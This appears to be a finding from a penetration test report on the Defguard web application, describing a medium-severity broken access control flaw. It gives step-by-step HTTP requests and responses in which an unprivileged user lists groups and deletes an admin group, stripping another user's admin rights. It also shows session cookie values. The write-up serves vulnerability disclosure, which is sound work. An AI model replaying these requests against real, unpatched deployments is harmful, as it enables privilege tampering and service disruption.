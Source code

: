 ```yaml
---
title: "DG25-9: Broken access control - Unauthorised group listing and deletion"
cvss_score: 4.3
severity: Medium
cvss_string: "CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:L/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1516
status: Completed
---
```


### Technical details

In regards to Defguard web application (core functionality), we were
able to discover broken vertical access control, where standard (not
privileged) user is able to both - list and remove groups.

Such possibility is especially impactful when considering ability to
remove admin group. This action can successfully degrade admin users to
standard users - potentially rendering whole application unusable.

To showcase this vulnerability, unprivileged user test_user with
defguard_session=4yzkAwO05vwM57Lq6hRn52ae will be used:

**Request:**\
\
**GET** /api/v1/me **HTTP**/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=4yzkAwO05vwM57Lq6hRn52ae\
**User**-**Agent:** **Mozilla**/5.0 (**Windows** **NT** 10.0; **Win64**;
x64) **AppleWebKit**/537.36 (**KHTML**, like **Gecko**)
**Chrome**/138.0.0.0 **Safari**/537.36\
**Referer:** https**://**defguard.dvpnsec.net/activity\
\
\
**Response:**\
\
**HTTP**/2 200 **OK**\
**Alt**-**Svc:** h3=*\":443\"*; ma=2592000\
**Content**-**Type:** application/json\
**Date:** **Thu**, 07 **Aug** 2025 13**:**30**:**25 **GMT**\
**Server:** **Caddy**\
**X**-**Defguard**-**Version:** 1.5.0-a29ac10\
**Content**-**Length:** 370\


```json
{
  "authorized_apps ": [],
  "email ": "skosdsfjsijfisjiajfusfh7373263662hsdsydyysydysydysy+test_user@yopmail.com ",
  "email_mfa_enabled ": false,
  "enrolled ": true,
  "first_name ": "Test ",
  "groups ": [],
  "id ": 50,
  "is_active ": true,
  "is_admin ": false,
  "last_name ": "User ",
  "ldap_pass_requires_change ": false,
  "mfa_enabled ": false,
  "mfa_method ": "None ",
  "phone ": " ",
  "totp_enabled ": false,
  "username ": "test_user "
}
```
Based on the server\'s response above - we can clearly confirm that
test_user is not an admin user (\"is_admin\": false,).

Nonetheless, test_user is able to:

#### List groups:

**Request:**\
\
**GET** /api/v1/group **HTTP**/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=4yzkAwO05vwM57Lq6hRn52ae\
**User**-**Agent:** **Mozilla**/5.0 (**Windows** **NT** 10.0; **Win64**;
x64) **AppleWebKit**/537.36 (**KHTML**, like **Gecko**)
**Chrome**/138.0.0.0 **Safari**/537.36\
**Referer:** https**://**defguard.dvpnsec.net/me\
\
\
**Response:**\
\
**HTTP**/2 200 **OK**\
**Alt**-**Svc:** h3=*\":443\"*; ma=2592000\
**Content**-**Type:** application/json\
**Date:** **Thu**, 07 **Aug** 2025 13**:**43**:**25 **GMT**\
**Server:** **Caddy**\
**X**-**Defguard**-**Version:** 1.5.0-a29ac10\
**Content**-**Length:** 38\
\
{*\"groups\"***:**\[*\"admin\"*,*\"onlyAdminsGroup\"*\]}

#### Delete onlyAdminsGroup group:

**Request:**\
\
**DELETE** /api/v1/group/onlyAdminsGroup **HTTP**/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=4yzkAwO05vwM57Lq6hRn52ae\
**User**-**Agent:** **Mozilla**/5.0 (**Windows** **NT** 10.0; **Win64**;
x64) **AppleWebKit**/537.36 (**KHTML**, like **Gecko**)
**Chrome**/138.0.0.0 **Safari**/537.36\
**Origin:** https**://**defguard.dvpnsec.net\
**Referer:** https**://**defguard.dvpnsec.net/admin/groups\
\
**Response:**\
\
**HTTP**/2 200 **OK**\
**Alt**-**Svc:** h3=*\":443\"*; ma=2592000\
**Content**-**Type:** application/json\
**Date:** **Thu**, 07 **Aug** 2025 13**:**45**:**51 **GMT**\
**Server:** **Caddy**\
**X**-**Defguard**-**Version:** 1.5.0-a29ac10\
**Content**-**Length:** 4\
\
null

Proof that group is gone:

**Request:**\
\
**GET** /api/v1/group **HTTP**/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=4yzkAwO05vwM57Lq6hRn52ae\
**User**-**Agent:** **Mozilla**/5.0 (**Windows** **NT** 10.0; **Win64**;
x64) **AppleWebKit**/537.36 (**KHTML**, like **Gecko**)
**Chrome**/138.0.0.0 **Safari**/537.36\
**Referer:** https**://**defguard.dvpnsec.net/me\
\
**Response:**\
\
**HTTP**/2 200 **OK**\
**Alt**-**Svc:** h3=*\":443\"*; ma=2592000\
**Content**-**Type:** application/json\
**Date:** **Thu**, 07 **Aug** 2025 13**:**46**:**45 **GMT**\
**Server:** **Caddy**\
**X**-**Defguard**-**Version:** 1.5.0-a29ac10\
**Content**-**Length:** 20\
\
{*\"groups\"***:**\[*\"admin\"*\]}

Proof in activity log (admin_user session cookie was used):

**Request:**\
\
**GET**
/api/v1/activity_log?page=1&sort_order=desc&sort_by=timestamp&search=onlyAdminsGroup&from=2025-08-01**T00**%3**A00**%3**A00**.000**Z**
**HTTP**/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=**TV5mN9u4k5KWG2ONbS6A0fh2**\
**User**-**Agent:** **Mozilla**/5.0 (**Windows** **NT** 10.0; **Win64**;
x64) **AppleWebKit**/537.36 (**KHTML**, like **Gecko**)
**Chrome**/138.0.0.0 **Safari**/537.36\
**Referer:** https**://**defguard.dvpnsec.net/activity\
\
\
**Response:**\
\
**HTTP**/2 200 **OK**\
**Alt**-**Svc:** h3=*\":443\"*; ma=2592000\
**Date:** **Thu**, 07 **Aug** 2025 13**:**51**:**18 **GMT**\
**Server:** **Caddy**\
**X**-**Defguard**-**Version:** 1.5.0-a29ac10\
**Content**-**Type:** text/plain; charset=utf-8\
**Content**-**Length:** 1224\

```json
{
  "data": [
    {
      "id": 180288,
      "timestamp": "2025-08-07T13:45:51.474721",
      "user_id": 50,
      "username": "test_user",
      "location": null,
      "ip": "167.172.191.17/32",
      "event": "group_removed",
      "module": "defguard",
      "device": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36",
      "description": "Removed group onlyAdminsGroup"
    },
    {
      "id": 180284,
      "timestamp": "2025-08-07T13:43:49.971672",
      "user_id": 35,
      "username": "admin_user",
      "location": null,
      "ip": "167.172.191.17/32",
      "event": "user_groups_modified",
      "module": "defguard",
      "device": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36",
      "description": "User groups modified! User: admin2_user Before: [\"admin\", \"onlyAdminsGroup\"] After: [\"onlyAdminsGroup\"]"
    },
    {
      "id": 180282,
      "timestamp": "2025-08-07T13:30:04.257209",
      "user_id": 35,
      "username": "admin_user",
      "location": null,
      "ip": "167.172.191.17/32",
      "event": "group_added",
      "module": "defguard",
      "device": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36",
      "description": "Added group onlyAdminsGroup"
    }
  ],
  "pagination": {
    "current_page": 1,
    "page_size": 50,
    "total_items": 3,
    "total_pages": 1,
    "next_page": null
  }
}
```

Lastly, we were able to confirm, that admin2_user who was exclusively in
onlyAdminsGroup - lost his admin privileges thanks to the unauthorised
test_user\'s onlyAdminsGroup removal:

![](/images/pentest/DG25/img3.png)
